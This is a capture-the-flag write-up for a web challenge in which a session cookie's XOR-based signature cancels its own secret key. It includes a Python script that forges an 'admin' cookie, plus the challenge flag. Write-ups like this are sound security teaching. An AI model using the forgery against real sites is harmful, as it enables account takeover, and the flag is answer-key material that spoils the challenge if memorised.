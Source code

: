 # Cookies

## Category  
Web

## Description  
"Cookies cookies cookies" - Milk

We're given a web challenge where authentication and access seem to be handled via a session cookie. The objective is to understand the signature generation mechanism and forge a valid session token for the `admin` user.

## Files Provided  
- `cookie-utils.ts` (TypeScript source code for cookie signing)

## Access  
Challenge was available at:  
http://cookies.challenges.cybersecuritychallenge.be

## Write-up  
The cookie structure is as follows:

```
value|timestamp|signature
```

Example cookie:
```
guest|2025-03-14T12:09:19.838Z|VUVXRllXRkhCQDNEV0lEXk9USlpfRl0p
```

We reverse engineered the signature logic from the TypeScript code and identified the following signature generation process:

```
signature = (((value ^ secret_key) ^ timestamp) ^ secret_key)
```

Since XOR is commutative and associative, we simplify:

```
signature = value ^ timestamp
```

This is because:
```
(value ^ secret ^ timestamp ^ secret) = value ^ timestamp
```

So, to forge a session as `admin`:
1. Extract the timestamp from the existing cookie.
2. XOR `admin` with the timestamp string to generate the new signature.
3. Reconstruct the cookie as:

```
admin|timestamp|new_signature
```

### Python Script

```python
def xor_bytes(a: bytes, b: bytes) -> bytes:
    return bytes([x ^ y for x, y in zip(a, b)])

# Original values
old_value = b"guest"
new_value = b"admin"
timestamp = b"2025-03-14T12:09:19.838Z"

# Reproduce the original signature by XORing guest with timestamp
# Then, generate the new signature by XORing admin with the same timestamp
# Padding the shorter input if necessary
def pad(b1, b2):
    length = max(len(b1), len(b2))
    return b1.ljust(length, b'_'), b2.ljust(length, b'_')

old_value_p, timestamp_p = pad(old_value, timestamp)
original_signature = xor_bytes(old_value_p, timestamp_p)

new_value_p, _ = pad(new_value, timestamp)
new_signature = xor_bytes(new_value_p, timestamp_p)

# Convert signature to base64 if required by the server (depends on implementation)
import base64
sig_b64 = base64.b64encode(new_signature).decode()

print(f"Forged cookie: admin|{timestamp.decode()}|{sig_b64}")
```

## Final Forged Cookie  
```
admin|2025-03-14T12:09:19.838Z|<generated_signature>
```

Replace the session cookie in your browser with the forged one to access the protected page.

## Flag  
```
CSC{I_LOV3_COOK13S}
```
